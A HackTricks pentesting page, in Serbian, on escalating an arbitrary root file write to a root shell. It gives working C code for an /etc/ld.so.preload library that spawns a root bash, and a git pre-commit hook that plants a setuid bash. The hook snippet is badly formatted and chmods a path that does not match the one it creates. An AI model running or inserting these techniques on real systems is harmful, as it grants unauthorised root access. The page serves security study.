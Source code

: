 # Arbitrary File Write to Root

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### /etc/ld.so.preload

Ova datoteka se ponaša kao **`LD_PRELOAD`** env promenljiva ali takođe funkcioniše i u **SUID binarnim fajlovima**.\
Ako možete da je kreirate ili modifikujete, možete jednostavno dodati **putanju do biblioteke koja će biti učitana** sa svakim izvršenim binarnim fajlom.

Na primer: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unlink("/etc/ld.so.preload");
setgid(0);
setuid(0);
system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Git kuke

[**Git kuke**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) su **skripte** koje se **pokreću** pri različitim **događajima** u git repozitorijumu, kao što je kreiranje commit-a, spajanje... Dakle, ako **privilegovani skript ili korisnik** često obavljaju ove radnje i mogu **pisati u `.git` folder**, to se može iskoristiti za **privesc**.

Na primer, moguće je **generisati skriptu** u git repozitorijumu u **`.git/hooks`** tako da se uvek izvršava kada je kreiran novi commit:

{% code overflow="wrap" %}
```
```
{% endcode %}

\`\`\`bash echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit chmod +x pre-commit \`\`\` ### Cron & Time fajlovi

TODO

### Servis & Socket fajlovi

TODO

### binfmt\_misc

Fajl koji se nalazi u `/proc/sys/fs/binfmt_misc` pokazuje koji binarni fajl treba da izvrši koji tip fajla. TODO: proveriti uslove za zloupotrebu ovoga kako bi se izvršio reverzni shell kada je otvoren zajednički tip fajla.
